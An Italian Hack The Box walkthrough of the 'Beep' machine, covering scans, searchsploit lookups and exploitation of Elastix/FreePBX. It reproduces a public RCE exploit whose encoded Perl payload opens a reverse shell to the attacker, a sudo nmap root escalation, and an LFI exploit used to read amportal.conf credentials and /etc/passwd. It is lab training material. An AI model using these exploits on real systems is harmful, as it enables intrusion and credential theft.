




**Author: Noto La Diega Alesssandro**

**Target: 10.10.10.7**

# INFORMATION GATHERING

Prima di tutto facciamo un scan veloce di [[Nmap]]

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]                            
└─# nmap -sC -sV -O -min-rate=5000 10.10.10.7 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-17 06:38 EDT 
Nmap scan report for 10.10.10.7                                
Host is up (0.047s latency).                              
Not shown: 988 closed tcp ports (reset)                             
PORT      STATE SERVICE    VERSION 
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0) 
| ssh-hostkey: 
|   1024 adee5abb6937fb27afb83072a0f96f53 (DSA)
|_  2048 bcc6735913a18a4b550750f6651d6d0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)       
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: UIDL IMPLEMENTATION(Cyrus POP3 server v2) USER PIPELINING APOP TOP STLS RESP-CODES LOGIN-DELAY(0) EXPIRE(NEVER) AUTH-RESP-CODE
111/tcp   open  rpcbind    2 (RPC #100000)                       
| rpcinfo:                               
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind 
|   100000  2            111/udp   rpcbind
|   100024  1            875/udp   status
|_  100024  1            878/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 
|_imap-capabilities: Completed OK NO CATENATE ATOMIC MAILBOX-REFERRALS CONDSTORE IDLE RIGHTS=kxte THREAD=REFERENCES LISTEXT X-NETSCAPE ACL LIST-SUBSCRIBED SORT=MODSEQ URLAUTHA0001 SORT NAMESPACE CHILDREN BINARY UNSELECT QUOTA MULTIAPPE
ND UIDPLUS RENAME THREAD=ORDEREDSUBJECT IMAP4 LITERAL+ IMAP4rev1 STARTTLS ANNOTATEMORE ID  
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--               
| Not valid before: 2017-04-07T08:22:08 
|_Not valid after:  2018-04-07T08:22:08
|_http-server-header: Apache/2.2.3 (CentOS)
|_ssl-date: 2023-06-17T10:41:52+00:00; -2s from scanner time.
| http-robots.txt: 1 disallowed entry                                   
|_/                                   
|_http-title: Elastix - Login page                             
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY 
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)                         
|_http-server-header: MiniServ/1.570 
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).                                                                                                                                                                   
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).                                                       
TCP/IP fingerprint:                                                              
OS:SCAN(V=7.93%E=4%D=6/17%OT=22%CT=1%CU=35487%PV=Y%DS=2%DC=I%G=Y%TM=648D8EA      
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=C7%GCD=1%ISR=CB%TI=Z%CI=Z%II=I%TS=A)SEQ(S      
OS:P=C6%GCD=1%ISR=CB%TI=Z%CI=Z%TS=A)OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M5      
OS:3CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=16A0%W2=16A0      
OS:%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M53CNNSNW7%C      
OS:C=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=      
OS:16A0%S=O%A=S+%F=AS%O=M53CST11NW7%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=      
OS:R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T      
OS:=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=      
OS:0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(      
OS:R=Y%DFI=N%T=40%CD=S)                                                          
Network Distance: 2 hops                                                         
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com                   
Host script results:                                                                      
|_clock-skew: -2s                                                                
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .   
```

Otteniamo il seguente risultato che mostra che 12 porte sono aperte:

- Porta 22: esecuzione di OpenSSH 4.3
- Porta 25: esegue Postfix smtpd
- Porta 80: esegue Apache httpd 2.2.3
- Porta 110: esegue Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7–7.el5_6.4
- Porta 111: esecuzione di rpcbind
- Porta 143: esegue Cyrus imapd 2.3.7-Invoca-RPM-2.3.7–7.el5_6.4
- Porta 443: HTTPS in esecuzione
- Porta 993: esegue Cyrus imapd
- Porta 995: esegue Cyrus pop3d
- Porta 3306: esegue MySQL
- Porta 4445: upnotifyp in esecuzione
- Porta 10000: esecuzione di MiniServ 1.570 (Webmin httpd)

Eseguiamo uno scan completo per essere sicuro che non ci siano altre porte aperte

```bash

```

Prima di passare all'enumerazione, prendiamo alcune note mentali sui risultati della scansione nmap.

- La versione di OpenSSH in esecuzione sulla porta 22 è piuttosto vecchia. Siamo abituati a vedere OpenSSH versione 7.2. Quindi sarebbe una buona idea controllare searchsploit per vedere se eventuali vulnerabilità critiche sono associate a questa versione.

- Le porte 25, 110, 143, 995 eseguono i protocolli di posta. Potremmo aver bisogno di trovare un indirizzo email valido per enumerare ulteriormente questi servizi. La porta 4190 che esegue Cyrus timsieved 2.3.7 sembra essere associata a imapd.

- La porta 111 esegue RPCbind. Non so molto di questo servizio, ma possiamo iniziare a enumerarlo utilizzando il comando rpcinfo che effettua una chiamata al server RPC e riporta ciò che trova. Penso che la porta 878 che esegue il servizio di stato sia associata a questo.

- Le porte 80, 443 e 10000 eseguono server web. La porta 80 sembra reindirizzare alla porta 443, quindi abbiamo solo due server Web da enumerare.

- La porta 3306 esegue il database MySQL. C'è molto potenziale di enumerazione per questo servizio.

- La porta 4559 esegue HylaFAX 4.3.10. In base a ciò, HylaFAX gestisce un server fax open source che consente la condivisione di apparecchiature fax tra computer offrendo il proprio servizio ai clienti tramite un protocollo simile all'FTP. Dovremo controllare il numero di versione per vedere se è associato a qualche exploit critico.

- La porta 5038 è in esecuzione con Asterisk Call Manager 1.1. Ancora una volta, dovremo controllare il numero di versione per vedere se è associato a qualche exploit critico.Non sono sicuro di cosa faccia il servizio upnotifyp sulla porta 4445.

# ENUMERATION

Partiamo dalla porta 443

![[../zzz_rev/attachments/1*GK_AbgflFen8W_kznDyfhQ.webp]]

Ci troviamo di fronte un prompt di login, proviamo un po di credenziali di default ma non funzionano.

Proviamo ad enumerare con [[Gobuster]]

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.7/ -k
===============================================================  
Gobuster v3.0.1  
by OJ Reeves ([@TheColonial](http://twitter.com/TheColonial)) & Christian Mehlmauer ([@_FireFart_](http://twitter.com/_FireFart_))  
===============================================================  
[+] Url: [https://10.10.10.7/](https://10.10.10.7/)  
[+] Threads: 10  
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
[+] Status codes: 200,204,301,302,307,401,403  
[+] User Agent: gobuster/3.0.1  
[+] Timeout: 10s  
===============================================================  
2019/12/27 13:36:46 Starting gobuster  
===============================================================  
/images (Status: 301)  
/help (Status: 301)  
/themes (Status: 301)  
/modules (Status: 301)  
/mail (Status: 301)  
/admin (Status: 301)  
/static (Status: 301)  
/lang (Status: 301)  
/var (Status: 301)  
/panel (Status: 301)  
/libs (Status: 301)  
/recordings (Status: 301)  
/configs (Status: 301)  
/vtigercrm (Status: 301)s
```

Ho  provato le credenziali comuni e predefinite su tutti i moduli di accesso che ho trovato nelle directory e non sono arrivato da nessuna part

All'indirizzo https://10.10.10.7/recordings/  trapela la versione di FreePBX (2.8.1.4) 
in uso ma non il numero di versione di Elastix. 



Poiché si tratta di un software standard, il passaggio successivo consiste nell'eseguire searchsploit per determinare se è associato a eventuali vulnerabilità.

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# searchsploit elastix    

Elastix - 'page' Cross-Site Scripting | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities| php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion| php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection| php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution | php/webapps/18650.py

Shellcodes: No Results
Papers: No Results

```

Abbiamo diversi risultati 

Gli exploit di cross-site scripting non sono molto utili poiché sono attacchi lato client e richiedono quindi l'interazione dell'utente finale. Le vulnerabilità relative all'esecuzione di codice in modalità remota (soluzione 1 RCE 18650.py ) e all'inclusione di file in locale (soluzione n. 2 LFI 37637.pl ) sono decisamente interessanti. La Blind SQL Injection è sullo script iridium_threed.php che il server non sembra caricare. Inoltre sembra che richieda l'autenticazione di un cliente, quindi eviterò questo exploit a meno che non ottenga credenziali di autenticazione valide. L'exploit PHP Code Injection si trova nella directory vtigercrm dove esiste anche la vulnerabilità LFI. Quindi lo esamineremo solo se la vulnerabilità LFI non si risolve.

Visitiamo https:10.10.10.7:10000 ci troviamo di fronte un prompt di login (webmin)



Anche questo sembra essere un software pronto all'uso e quindi la prima cosa che farò è eseguire searchsploit su di esso.

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# searchsploit webmin   

DansGuardian Webmin Module 0.x - 'edit.cgi' Directory Traversal|cgi/webapps/23535.txt
phpMyWebmin 1.0 - 'target' Remote File Inclusion| php/webapps/2462.txt
phpMyWebmin 1.0 - 'window.php' Remote File Inclusion | php/webapps/2451.txt
Webmin - Brute Force / Command Execution | multiple/remote/705.pl
webmin 0.91 - Directory Traversal | cgi/remote/21183.txt
Webmin 0.9x / Usermin 0.9x/1.0 - Access Session ID Spoofing|linux/remote/22275.pl
Webmin 0.x - 'RPC' Privilege Escalation | linux/remote/21765.pl
Webmin 0.x - Code Input Validation | linux/local/21348.txt
Webmin 1.5 - Brute Force / Command Execution| multiple/remote/746.pl
Webmin 1.5 - Web Brute Force (CGI)| multiple/remote/745.pl
Webmin 1.580 - '/file/show.cgi' Remote Command Execution (Metasploit)| unix/remote/21851.rb
Webmin 1.850 - Multiple Vulnerabilities| cgi/webapps/42989.txt
Webmin 1.900 - Remote Command Execution (Metasploit) | cgi/remote/46201.rb
Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)| linux/remote/46984.rb
Webmin 1.920 - Remote Code Execution | linux/webapps/47293.sh
Webmin 1.920 - Unauthenticated Remote Code Execution (Metasploit) | linux/remote/47230.rb
Webmin 1.962 - 'Package Updates' Escape Bypass RCE (Metasploit)| linux/webapps/49318.rb
Webmin 1.973 - 'run.cgi' Cross-Site Request Forgery (CSRF)| linux/webapps/50144.py
Webmin 1.973 - 'save_user.cgi' Cross-Site Request Forgery (CSRF)| linux/webapps/50126.py
Webmin 1.984 - Remote Code Execution (Authenticated)| linux/webapps/50809.py
Webmin 1.996 - Remote Code Execution (RCE) (Authenticated)| linux/webapps/50998.py
Webmin 1.x - HTML Email Command Execution | cgi/webapps/24574.txt
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure | multiple/remote/1997.php
Webmin < 1.290 / Usermin < 1.220 - Arbitrary File Disclosure | multiple/remote/2017.pl
Webmin < 1.920 - 'rpc.cgi' Remote Code Execution (Metasploit)| linux/webapps/47330.rb

```

# EXPLOITATION

## RCE 

Questa attacco sarò diretto alla porta 443

come prima cosa ci scarichiamo l'exploit 18650.py e gli diamo un occhio

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# searchsploit -m 18650.py
  Exploit: FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/18650
     Path: /usr/share/exploitdb/exploits/php/webapps/18650.py
    Codes: OSVDB-80544, CVE-2012-4869
 Verified: True
File Type: Python script, ASCII text executable, with very long lines (418)
Copied to: /home/kali/htb/beep/18650.py


┌──(root㉿kali)-[/home/kali/htb/beep]
└─# cat 18650.py    
#!/usr/bin/python
############################################################
# Exploit Title: FreePBX / Elastix pre-authenticated remote code execution exploit
# Google Dork: oy vey
# Date: March 23rd, 2012
# Author: muts, SSL update by Emporeo
# Version: FreePBX 2.10.0/ 2.9.0, Elastix 2.2.0, possibly others.
# Tested on: multiple
# CVE : notyet
# Blog post : http://www.offensive-security.com/vulndev/freepbx-exploit-phone-home/
# Archive Url : http://www.offensive-security.com/0day/freepbx_callmenum.py.txt
############################################################
# Discovered by Martin Tschirsich
# http://seclists.org/fulldisclosure/2012/Mar/234
# http://www.exploit-db.com/exploits/18649
############################################################
import urllib
import ssl
rhost="172.16.254.72"
lhost="172.16.254.223"
lport=443
extension="1000"

ssl._create_default_https_context = ssl._create_unverified_context

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)

# On Elastix, once we have a shell, we can escalate to root:
# root@bt:~# nc -lvp 443
# listening on [any] 443 ...
# connect to [172.16.254.223] from voip [172.16.254.72] 43415
# id
# uid=100(asterisk) gid=101(asterisk)
# sudo nmap --interactive

# Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
# Welcome to Interactive Mode -- press h <enter> for help
# nmap> !sh
# id
# uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)  
```

Modifichiamo l'exploit  alle voci 

```bash
import urllib
import ssl
rhost="10.10.10.7"
lhost="10.10.14.34"
lport=1234
extension="1000"
```

la parte codificata nel parametro url  sembra un'iniezione di comando che invia una shell inversa alla nostra macchina d'attacco. Impostiamo un listener netcat su lhost e lport configurati per ricevere la shell inversa. 

ci mettiamo in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# nc -lnvp 1234
listening on [any] 1234 ...
```

ma non funziona...

Proviamo a vedere cosa non va

L'errore  potrebbe avere a che fare con il valore di `estension` predefinito nello script. In realtà non sappiamo se il valore 1000 è un'estensione valida. Per capirlo, dovremo utilizzare gli strumenti di sicurezza SIPVicious. In particolare, lo strumento svwar identifica le linee interne funzionanti su un PBX. Eseguiamo questo strumento per enumerare le estensioni valide.

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# python svwar.py -m INVITE -e100-900 10.10.10.7
WARNING:TakeASip:using an INVITE scan on an endpoint (i.e. SIP phone) may cause it to ring and wake up people in the middle of the night
+-----------+----------------+
| Extension | Authentication |
+===========+================+
| 233       | reqauth        |
+-----------+----------------+

```

-m: specifica un metodo di richiesta
-e: specifica un'estensione o un intervallo di estensione

modifichiamo il valore `estension` con quello trovato e rilanciamo l'exploti

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# python2 18650.py                                         
```

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.7] 32863
whoami
asterisk

```


```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.7] 42249
whoami
asterisk
```

facciamo un upgrade dell shell e ci prendiamo la user flag

```
which python
/usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
bash-3.2$ cd ..
cd ..
bash-3.2$ ls
ls
bin   dev  home  lost+found  mnt  proc  sbin     srv  tftpboot  usr
boot  etc  lib   media       opt  root  selinux  sys  tmp       var
bash-3.2$ cd /home
cd /home
bash-3.2$ ls
ls
fanis  spamfilter
bash-3.2$ cd fanis
cd fanis
bash-3.2$ cat user.txt
cat user.txt
9c8aeff7a5376b758fb7d875c949b871
bash-3.2$ 
```


## [[Local File Inclusion LFI]]

Questo attacco prende sempre di mira la porta 443 ma utilizzeremo una LFI

Per prima cosa ci scarichiamo LFI

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# searchsploit -m 37637.pl                                                                                                                                                                                                               
  Exploit: Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                                                                                                                                
      URL: https://www.exploit-db.com/exploits/37637                                                                                                                                                                                       
     Path: /usr/share/exploitdb/exploits/php/webapps/37637.pl                                                                                                                                                                              
    Codes: N/A
 Verified: True
File Type: ASCII text
cp: overwrite '/home/kali/htb/beep/37637.pl'? y
Copied to: /home/kali/htb/beep/37637.pl


┌──(root㉿kali)-[/home/kali/htb/beep]
└─# cat 37637.pl 
source: https://www.securityfocus.com/bid/55078/info

Elastix is prone to a local file-include vulnerability because it fails to properly sanitize user-supplied input.

An attacker can exploit this vulnerability to view files and execute local scripts in the context of the web server process. This may aid in further attacks.

Elastix 2.2.0 is vulnerable; other versions may also be affected.

#!/usr/bin/perl -w

#------------------------------------------------------------------------------------#
#Elastix is an Open Source Sofware to establish Unified Communications.
#About this concept, Elastix goal is to incorporate all the communication alternatives,
#available at an enterprise level, into a unique solution. 
#------------------------------------------------------------------------------------#
############################################################
# Exploit Title: Elastix 2.2.0 LFI
# Google Dork: :(
# Author: cheki
# Version:Elastix 2.2.0
# Tested on: multiple
# CVE : notyet
# romanc-_-eyes ;)
# Discovered by romanc-_-eyes
# vendor http://www.elastix.org/

print "\t Elastix 2.2.0 LFI Exploit \n";
print "\t code author cheki   \n";
print "\t 0day Elastix 2.2.0  \n";
print "\t email: anonymous17hacker{}gmail.com \n";

#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

use LWP::UserAgent;
print "\n Target: https://ip ";
chomp(my $target=<STDIN>);
$dir="vtigercrm";
$poc="current_language";
$etc="etc";
$jump="../../../../../../../..//";
$test="amportal.conf%00";

$code = LWP::UserAgent->new() or die "inicializacia brauzeris\n";
$code->agent('Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)');
$host = $target . "/".$dir."/graph.php?".$poc."=".$jump."".$etc."/".$test."&module=Accounts&action";
$res = $code->request(HTTP::Request->new(GET=>$host));
$answer = $res->content; if ($answer =~ 'This file is part of FreePBX') {

print "\n read amportal.conf file : $answer \n\n";
print " successful read\n";

}
else {
print "\n[-] not successful\n";
        }   
```

Visitando al pagina `https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`  ci rendiamo conto che l'applicazione è decisamente vulnerabile. 


Facciamo clic con il tasto destro sulla pagina e selezionare Visualizza sorgente pagina per formattare la pagina.

Vediamo che abbiamo un sacco di credenziali. Le più importanti sembrano le seguenti:

```bash

# This is the default admin name used to allow an administrator to login to ARI bypassing all security.
# Change this to whatever you want, don't forget to change the ARI_ADMIN_PASSWORD as well
ARI_ADMIN_USERNAME=admin

# This is the default admin password to allow an administrator to login to ARI bypassing all security.
# Change this to a secure password.
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
```


Proviamo ad accede via tramite ssh

>FIX ERROR:
> non mi faceva accedere al servizio ssh, dandomi il seguente errore

```bash
┌──(root㉿kali)-[~/.ssh]
└─# ssh root@10.10.10.7   
   Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

 >si verifica quando il client SSH non riesce a trovare un metodo di scambio delle chiavi supportato dal server SSH remoto. In questo caso, il server offre i seguenti metodi di scambio delle chiavi: diffie-hellman-group-exchange-sha1, diffie-hellman-group14-sha1, diffie-hellman-group1-sha1.
  Questo errore può verificarsi quando il client SSH ha restrizioni o configurazioni specifiche che limitano i metodi di scambio delle chiavi supportati. Potrebbe essere necessario abilitare o aggiornare i metodi di scambio delle chiavi nel client SSH per consentire una corretta negoziazione con il server.
  Per risolvere il problema, apriamo il file di configurazione del client SSH (solitamente situato in /etc/ssh/ssh_config o ~/.ssh/config) e assicurati che i metodi di scambio delle chiavi supportati siano abilitati. Possiamo  aggiungere o modificare la seguente linea nel file di configurazione:
  
```bash
KexAlgorithms diffie-hellman-group-exchange-sha256,diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

>

Riproviamo ad accedere ad ssh come utente admin:

```bash
┌──(root㉿kali)-[/home/kali/htb/beep]
└─# ssh admin@10.10.10.7

admin@10.10.10.7's password: 
Permission denied, please try again.
admin@10.10.10.7's password: 
Permission denied, please try again.
admin@10.10.10.7's password: 
admin@10.10.10.7: Permission denied (publickey,gssapi-with-mic,password).
```

Non funziona

Proviamo ad usare LFI per estrarre gli utenti della macchina

`https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action


sempre andando a vedere il codice sorgente abbiamo la corretta formattazione degli utenti 

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
distcache:x:94:94:Distcache:/:/sbin/nologin
